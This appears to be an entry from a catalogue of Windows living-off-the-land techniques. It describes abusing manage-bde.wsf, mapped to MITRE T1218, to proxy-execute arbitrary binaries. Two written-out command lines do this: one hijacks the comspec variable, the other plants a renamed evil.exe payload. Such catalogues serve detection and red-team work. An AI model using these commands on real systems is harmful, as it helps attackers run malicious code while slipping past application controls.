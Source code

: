 ## Manage-bde.wsf
```

set comspec=c:\windows\system32\calc.exe & cscript c:\windows\system32\manage-bde.wsf
Set the comspec variable to another executable prior to calling manage-bde.wsf for execution.

copy c:\users\person\evil.exe c:\users\public\manage-bde.exe & cd c:\users\public\ & cscript.exe c:\windows\system32\manage-bde.wsf
Run the manage-bde.wsf script with a payload named manage-bde.exe in the same directory to run the payload file.
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: False   
* Mitre: [T1218](https://attack.mitre.org/wiki/Technique/T1218)   
   
* Links:   
  * https://gist.github.com/bohops/735edb7494fe1bd1010d67823842b712
  * https://twitter.com/bohops/status/980659399495741441
   
* File path:   
  * 
   
* Acknowledgement:   
  * Name: Jimmy
    * Twitter: [@bohops](https://twitter.com/@bohops)
    * Blog: https://bohops.com/
  * Name: Daniel Bohannon
    * Twitter: [@danielbohannon](https://twitter.com/@danielbohannon)
    * Blog: http://www.danielbohannon.com/
   
OS:  
